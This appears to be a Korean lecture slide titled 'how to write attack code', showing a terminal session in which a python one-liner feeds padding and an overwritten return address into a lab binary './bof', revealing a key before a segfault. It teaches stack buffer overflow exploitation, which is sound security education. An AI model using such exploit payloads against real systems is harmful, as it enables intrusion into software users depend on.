

공격 코드 작성법
his@his-VirtualBox:~/바탕화면$ python -c "print 'A'*14 + '\x8b\x84\x04\x08'" | ./bof
Wrong!!
key : du^82i!<
세그멘테이션 오류 (core dumped)

<공격 코드 삽입 결과>